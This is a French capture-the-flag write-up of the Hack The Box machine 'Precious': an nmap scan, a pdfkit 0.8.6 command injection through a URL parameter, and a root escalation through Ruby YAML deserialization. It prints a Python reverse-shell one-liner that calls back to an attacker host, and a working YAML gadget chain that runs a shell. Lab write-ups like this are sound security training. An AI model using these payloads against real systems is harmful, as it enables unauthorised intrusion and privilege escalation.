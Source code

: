 # Precious - Easy

```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-12-27 18:47 EST
Nmap scan report for 10.10.11.189
Host is up (0.073s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.69 seconds
```

Arrivée sur un site qui permet de transformer une page en pdf, les pages classiques tels que [google.com](http://google.com) ne marchent pas ni la page en elle même : Cannot load remote URL!

En hostant des fichiers sur sa machine on peut fetch en pdf sur le site, on va donc essayer de faire une reverse shell

[https://mhmdiaa.com/blog/exploiting-html-imports/](https://mhmdiaa.com/blog/exploiting-html-imports/)

Pas de possibilité d’inclure un fichier dans le pdf via javascript, on remarque alors que le pdf est généré avec pdfkit 0.8.6 qui est vulnérable et exploitable via le paramètre `?name=%20`commande``

en plus de l’url. On utilise un reverse shell python:

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

On est connecté en tant que ruby

Dans le dossier caché .bundle dans le home de ruby, on trouve le mot de passe de henry dans le fichier config:

On peut alors se connecter en SSH et obtenir le flag user

Il y a un SETUID énoncé comme tel : 

```bash
sudo /usr/bin/ruby /opt/update_dependencies.rb
```

Le but est donc de trouver un moyen pour exploiter ce SETUID

On se place dans notre home et on crée un dependencies.yaml

Il s’agit de faire une attack sur la deserialisation yaml par ruby

[Blind Remote Code Execution through YAML Deserialization](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/)

```bash
Serialization is the process of turning some object into a data format that can be restored later. People often serialize objects in order to save them to storage, or to send as part of communications.

Deserialization is the reverse of that process, taking data structured from some format, and rebuilding it into an object. Today, the most popular data format for serializing data is JSON. Before that, it was XML.
```

En suivant l’exemple du lien plus haut, on modifie le code pour obtenir un shell :

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c '/bin/sh'"
         method_id: :resolve
```

On obtient un shell root et on obtient le flag !
